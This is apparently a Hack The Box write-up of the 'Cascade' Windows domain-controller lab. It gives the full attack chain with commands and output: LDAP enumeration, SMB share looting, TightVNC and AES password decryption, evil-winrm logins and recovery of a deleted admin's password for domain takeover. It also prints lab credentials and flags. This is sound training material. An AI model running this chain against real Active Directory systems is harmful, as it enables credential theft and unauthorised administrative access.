








**Start 11:22 27-08-2024**

---
```
10.10.10.182
```
## Recon

### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -T5 -vvvv -p- -Pn 10.10.10.182
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2024-08-27 05:25 EDT

Discovered open port 135/tcp on 10.10.10.182
Discovered open port 139/tcp on 10.10.10.182
Discovered open port 53/tcp on 10.10.10.182
Discovered open port 445/tcp on 10.10.10.182
Discovered open port 3268/tcp on 10.10.10.182
Discovered open port 49155/tcp on 10.10.10.182
Discovered open port 49157/tcp on 10.10.10.182
Discovered open port 49158/tcp on 10.10.10.182
Discovered open port 636/tcp on 10.10.10.182
Discovered open port 49154/tcp on 10.10.10.182
Discovered open port 5985/tcp on 10.10.10.182
Discovered open port 49165/tcp on 10.10.10.182
Discovered open port 3269/tcp on 10.10.10.182
Discovered open port 389/tcp on 10.10.10.182
Discovered open port 88/tcp on 10.10.10.182
```

Unfortunately for me it would not tell me what services were running on these open ports.
So I chose to do another `nmap scan` solely specifying these exact ports I've found:

```bash
nmap -sC -sV -T5 -vvvv -p 135,139,53,445,3268,49155,49157,49158,636,49154,5985,49165,3269,389,88 10.10.10.182 -Pn
```

This did give me the results I wanted to see:

```bash
Nmap scan report for 10.10.10.182
Host is up, received user-set (0.068s latency).
Scanned at 2024-08-27 06:01:33 EDT for 148s

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-08-27 10:01:43Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49154/tcp open  unknown       syn-ack
49155/tcp open  unknown       syn-ack
49157/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49158/tcp open  unknown       syn-ack
49165/tcp open  unknown       syn-ack
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 51409/tcp): CLEAN (Timeout)
|   Check 2 (port 47234/tcp): CLEAN (Timeout)
|   Check 3 (port 10882/udp): CLEAN (Timeout)
|   Check 4 (port 58957/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb2-time: Protocol negotiation failed (SMB2)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
```

It appears to be a `domain controller` judging from port `53` running on a `Windows Server 2008 R2 SP1`.

Now that we finally know all the services running we can get to enumerating them.


## 389/TCP - LDAP

### ldapsearch
We can enumerate this service using `ldapsearch 10.10.10.182`. 
I started off by enumerating the users and their usernames:

```bash
┌──(kali㉿kali)-[~]
└─$ ldapsearch -x -H ldap://10.10.10.182:389 -b "DC=cascade,DC=local" "(objectClass=user)" cn sAMAccountName
```

This gave me a huge output of users, I then checked to see whether I could get any passwords out of them:

```bash
# Added the cascadeLegacyPwd

┌──(kali㉿kali)-[~]
└─$ ldapsearch -x -H ldap://10.10.10.182:389 -b "DC=cascade,DC=local" "(objectClass=user)" cn sAMAccountName cascadeLegacyPwd
```

This gave me the same output but one user stood out:

```bash
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
cn: Ryan Thompson
sAMAccountName: r.thompson
cascadeLegacyPwd: clk0bjVldmE=
```


### Base64 decoding
The user `r.thomspon` still has their `Legacy Password` enabled apparently. But looking closer at it it appears to be a `Base64` encoded string, meaning we can decode it using the following commands:

```bash
echo "clk0bjVldmE=" | base64 -d
```

```bash
┌──(kali㉿kali)-[~]
└─$ echo "clk0bjVldmE=" | base64 -d
rY4n5eva 
```

Great! Now we have a valid set of creds:

```
r.thompson
rY4n5eva
```


## 445/TCP - SMB

### smbmap
Now that we know the credentials for this user we can try and log in to one of the ports. I tried to connect to port `445/SMB` using `smbmap`.

```bash
┌──(kali㉿kali)-[~]
└─$ smbmap -u r.thompson -p rY4n5eva -H 10.10.10.182 -d cascade.local -L -v --no-banner    

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
[+] 10.10.10.182:445 is running Windows 6.1 Build 7601 (name:CASC-DC1) (domain:CASCADE)
```


### crackmapexec
From this output I noticed that there are no shares available which was odd and made me think there might be different attack vectors. But then I realized that maybe different input could yield other results. I also used `crackmapexec` in order to double check whether `smb` is the right attack vector:

```bash
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb -u r.thompson -p rY4n5eva -d cascade.local 10.10.10.182
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva
```


### smbcliet
The results made me hopeful so I changed my `smbclient` command:

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient --option='client min protocol=SMB2' -L 10.10.10.182 -U r.thompson -W cascade.local

Password for [CASCADE.LOCAL\r.thompson]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Finally I got what I wanted! Here I found the non-standard `Data` share which I got really interested in. Now I can connect to this share and check out what's in there.

I tried connecting using different commands until this one worked:

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient --option='client min protocol=SMB2' //10.10.10.182/Data -U r.thompson%rY4n5eva -W cascade.local

Try "help" to get a list of possible commands.
smb: \> 
```

Here I've separated the `username` and `password` with a `%` symbol in order to log in (for some reason entering the password at the prompt kept failing).
Now that I was finally in it was time to enumerate the share. Right away I notice that I cannot enter some directories. I did manage to get into the `IT` directory where I found an archived email. I downloaded this email using `get` and read it in another terminal:

```html
</SNIP >

<p>For anyone that missed yesterday�s meeting (I�m looking at
you Ben). Main points are below:</p>

<p class=MsoNormal><o:p>&nbsp;</o:p></p>

<p>-- New production network will be going live on
Wednesday so keep an eye out for any issues. </p>

<p>-- We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password). </p>

<p>-- The winner of the �Best GPO� competition will be
announced on Friday so get your submissions in soon.</p>

<p class=MsoNormal><o:p>&nbsp;</o:p></p>

<p class=MsoNormal>Steve</p>


</div>

</body>

</html> 
```

It seems that there has been a temporary account created called `TempAdmin`. I tried to enumerate the `smb` share further and found the following:

```bash
smb: \IT\Temp\> ls
  .                                   D        0  Tue Jan 28 17:06:59 2020
  ..                                  D        0  Tue Jan 28 17:06:59 2020
  r.thompson                          D        0  Tue Jan 28 17:06:53 2020
  s.smith                             D        0  Tue Jan 28 15:00:01 2020

                6553343 blocks of size 4096. 1625493 blocks available
```

I've found the `s.smith` user and when I went into his directory this popped up:

```bash
smb: \IT\Temp\s.smith\> ls
  .                                   D        0  Tue Jan 28 15:00:01 2020
  ..                                  D        0  Tue Jan 28 15:00:01 2020
  VNC Install.reg                     A     2680  Tue Jan 28 14:27:44 2020

                6553343 blocks of size 4096. 1625493 blocks available
```

I used the `get` command to download the `.reg` file and will now have to decrypt it:

```bash
smb: \IT\Temp\s.smith\> get "VNC Install.reg" 
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as VNC Install.reg (11.2 KiloBytes/sec) (average 11.2 KiloBytes/sec)
smb: \IT\Temp\s.smith\> 
```

```bash
┌──(kali㉿kali)-[~]
└─$ cat VNC\ Install.reg 
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

This is a `TightVNC` password. I looked up on `Google` how to decrypt it and found [an interesting wirteup](https://github.com/frizb/PasswordDecrypts) which I then followed down below.

First thing I booted up `msfconsole`.

```bash
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\x17Rk\x06#NX\a"
>> require 'rex/proto/rfb'
=> true
```

Now that these commands are issued I modify the following line to suit my password hash:

```bash
Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
```

I then inserted the command and got the decrypted password:

```bash
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
=> "sT333ve2"
>> 
```

Just like that I've gained another set of creds:

```
s.smith
sT333ve2
```


## 5985/TCP - RDP
### user.txt
Using the newly found creds I was able to log into `rdp` wit `evil-winrm`. I then went to the `Desktop` directory and read the `user.txt` flag:

```bash
┌──(kali㉿kali)-[~]
└─$ evil-winrm -u s.smith -p sT333ve2 -i 10.10.10.182  
Evil-WinRM shell v3.5

*Evil-WinRM* PS C:\Users\s.smith\Documents>
```

```powershell
*Evil-WinRM* PS C:\Users\s.smith> cd Desktop
*Evil-WinRM* PS C:\Users\s.smith\Desktop> type user.txt
6513be7245e234874040a2d1162ef57a
```

Now that I've gotten the user flag I can get to escalating privileges.


## Lateral Movement

First of all I used `net user`:

```powershell
*Evil-WinRM* PS C:\Users\s.smith\Desktop> net user

User accounts for \\

-------------------------------------------------------------------------------
a.turnbull               administrator            arksvc
b.hanson                 BackupSvc                CascGuest
d.burman                 e.crowe                  i.croft
j.allen                  j.goodhand               j.wakefield
krbtgt                   r.thompson               s.hickson
s.smith                  util
The command completed with one or more errors.
```

### smbclient
Using the following command I connect to the secret share.

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient --option='client min protocol=SMB2' //10.10.10.182/AUDIT$ -U s.smith%sT333ve2 -W cascade.local
```

Here I found the `CascAudit.exe` file as well as the `Audit.db SQLite3` database. I use `get` to download these files to my local machine and get to inspecting.

```bash
┌──(kali㉿kali)-[~]
└─$ file CascAudit.exe     
CascAudit.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

This seems to be a `.NET` executable, we can `reverse engineer` this file using a tool like [dnSpy](https://github.com/dnSpy/dnSpy) which I will be doing after reading the `db` file first.


## SQLite3
Using `sqlite3 Audit.db` I start reading the database and use `.schema` and `.tables` to inspect it.

```bash
┌──(kali㉿kali)-[~]
└─$ sqlite3 Audit.db                                                                                        
SQLite version 3.42.0 2023-05-16 12:36:15
Enter ".help" for usage hints.
sqlite> .tables
DeletedUserAudit  Ldap              Misc    

sqlite> .schema
CREATE TABLE IF NOT EXISTS "Ldap" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "uname" TEXT,
        "pwd"   TEXT,
        "domain"        TEXT
);
CREATE TABLE sqlite_sequence(name,seq);
CREATE TABLE IF NOT EXISTS "Misc" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "Ext1"  TEXT,
        "Ext2"  TEXT
);
CREATE TABLE IF NOT EXISTS "DeletedUserAudit" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "Username"      TEXT,
        "Name"  TEXT,
        "DistinguishedName"     TEXT
);
sqlite> 
```

Using this knowledge I query the `Ldap` table.

```bash
sqlite> SELECT * FROM Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```

We got a new user called `ArkSvc` as well as his encrypted password hash. I'm sure that we can use the `.NET` executable file to figure out the decrypted hash.


## dnSpy
We can either run `dnSpy` locally by installing `wine64` first or we can send it to another `Windows VM` and run it there. I will first try to run it locally.

```bash
sudo apt install wine64
wine dnSpy.exe
```



Once inside the application I go to `File` -> `Open` and navigate to where my file is located.



I click `Open` and open up the file for further inspection:



Now while this is not super useful to us, I went to the `MainModule` file in the following directory:



Upon inspecting the code I found the following part of great interest:



Here we see that the `SQLite3` opens the connection, reads the password hash and decrypts it with the `c4scadek3y654321` key. I tried to find this `DecryptString` function inside the `Crypto` library to no avail, which means that it might be in one of the `.dll` files we've found on the `AUDIT$` share. 

I yet again connect to the share using `smbclient`. I find the following file which I also `get`.

```bash
smb: \> ls
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                      An    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020

                6553343 blocks of size 4096. 1618567 blocks available
smb: \> get CascCrypto.dll 
getting file \CascCrypto.dll of size 12288 as CascCrypto.dll (41.5 KiloBytes/sec) (average 41.5 KiloBytes/sec)
```

Once the file is downloaded I head to `dnSpy` again and open up the new file.
I head to the following directory:



And here I find the `DecryptString` module which I inspect.




## hash cracking
A 128-bit AES algorithm is used to decrypt the password. The encryption mode is set to 1 and the IV is set to `1tdyjCbY1Ix49842`.

Using this `DecryptString` together with the `encryption key` `c4scadek3y654321` we can go ahead and decrypt the password hash using a simple `Python` script I wrote:

```bash
nano decrypt.py
```

```bash
from base64 import b64decode
from Crypto.Cipher import AES

# Given encrypted string and key
encrypted_string = "BQO5l5Kj9MdErXx6Q6AGOw=="
key = "c4scadek3y654321"
iv = b"1tdyjCbY1Ix49842"

# Decode the base64 encoded encrypted string
encrypted_bytes = b64decode(encrypted_string)

# Convert key to bytes and create an AES cipher object with CBC mode
cipher = AES.new(key.encode('utf-8'), AES.MODE_CBC, iv)

# Decrypt the encrypted string
decrypted_bytes = cipher.decrypt(encrypted_bytes)

# Decode the decrypted bytes to a string and strip any padding
decrypted_string = decrypted_bytes.decode('utf-8').rstrip('\x00')

print(decrypted_string)
```

I then run the script using `python decrypt.py` which gives me the following set of credentials:

```
ArkSvc
w3lc0meFr31nd
```


## Privilege Escalation
### evil-winrm
I then use the above found creds to log in again into `RDP`:

```bash
┌──(kali㉿kali)-[~]
└─$ evil-winrm -u ArkSvc -p w3lc0meFr31nd -i 10.10.10.182

*Evil-WinRM* PS C:\Users\arksvc\Documents>
```

Once I am in it is time to start enumerating even further. I used `net user` again to enumerate the currently logged in user:

```powershell
*Evil-WinRM* PS C:\Users\arksvc\Desktop> net user ArkSvc
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 5:18:20 PM
Password expires             Never
Password changeable          1/9/2020 5:18:20 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/29/2020 10:05:40 PM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin       *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

We see a few `groups` that we are a member of. An interesting one is the `AD Recycle Bin` group, I recall that from the `email` that was sent there was talk of a `TempAdmin` using the same `password`
as the regular `admin` account. Since we are a member of that group we should take a closer look and see if we can find anything.

Using the following command I inspect all the deleted items in the `AD Bin`:

```powershell
Get-ADObject -ldapfilter "(&(isDeleted=TRUE))" -IncludeDeletedObjects
```

Among others we find the `TempAdmin` account:

```powershell
Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
```

I of course wish to further inspect this deleted user so I use the following command to enumerate it further:

```powershell
Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName=TempAdmin) (isDeleted=TRUE))" -IncludeDeletedObjects -Properties *
```

This gives me the following output:

```powershell
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName=TempAdmin) (isDeleted=TRUE))" -IncludeDeletedObjects -Properties *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```

We have found a `Legacy Password`! 

```
YmFDVDNyMWFOMDBkbGVz
```

Now we can go ahead and use the following command to decrypt this `Base64` hash:

```bash
echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
```

```bash
┌──(kali㉿kali)-[~]
└─$ echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
baCT3r1aN00dles
```

I then try and log in as the `Administrator` using this newly found password.

```bash
┌──(kali㉿kali)-[~]
└─$ evil-winrm -u Administrator -p baCT3r1aN00dles -i 10.10.10.182

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Success!


### root.txt
We can now go ahead and grab the `root` flag from `/Desktop`:

```powershell
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
0b958b9e97f0751c66b48871aa08f768
```




---

**Finished 09:58 28-08-2024**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
